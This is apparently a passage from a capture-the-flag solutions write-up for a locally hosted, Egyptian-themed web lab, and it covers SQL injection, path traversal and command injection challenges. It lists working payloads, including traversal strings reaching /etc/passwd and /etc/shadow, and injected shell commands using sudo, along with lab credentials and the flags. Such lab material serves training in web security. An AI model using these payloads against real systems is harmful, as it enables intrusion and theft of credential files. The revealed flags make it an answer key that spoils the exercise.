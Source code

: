    ```sql
   ```
   Output: `khufu` / `pharaoh`
5. Login with these credentials.
6. Intercept request to the **Ancient Scroll** and use time-based or boolean SQLi to enumerate (Note: this is not the only payload that works, but the simplest you could use a wide variety of time based payload to enumerate the name):
   ```sql
   ' AND substr(name,1,1)='a' --
   ```
   Eventually, discover the name: `amuntekh`
7. Final flag: `O24{1nj3c10n_m4st3r_g0d}`

---

## 📁 Path Traversal - The Tomb of the God of Mischief
**URL:** `http://127.0.0.1:5012`  
**Flag:** `O24{p47h_7r4v3r54l_m45t3r}`

### First Challenge Payload
- `....//....//etc/passwd`

### Second Challenge Payload
- `..%2f..%2fetc%2fshadow`

### Third Challenge Payload
- `../../etc/hosts%00`

> 🗒️ Puzzle-style clues hint at traversal depth, encoding, and filenames like `passwd`, `shadow`, `hosts`, and the concept of “zero offering” (null byte).

---

## 🧙 Command Injection - Book of the Dead - Soul Path Oracle
**URL:** `http://127.0.0.1:5016/`  
**Flag:** `O24{th3_scr1b3_r3v34ls_h1dd3n_tr34sur3s}`

### Steps
1. Commands aren't reflected directly; intercept a request and send it to Burp Repeater.
2. Use payloads like (Note: $() && and others works as well):
   ```bash
   ;whoami
   ;ls
   ;cat ritual_1.log
   ;cat ritual_2.log
   ;cat ritual_3.log
   ;sudo -l
   ;sudo -u high_priest /usr/bin/cat /var/log/ritual/../../home/high_priest/sacred_scroll.txt
   ```
3. Key hints appear in ritual logs and system log responses.

---
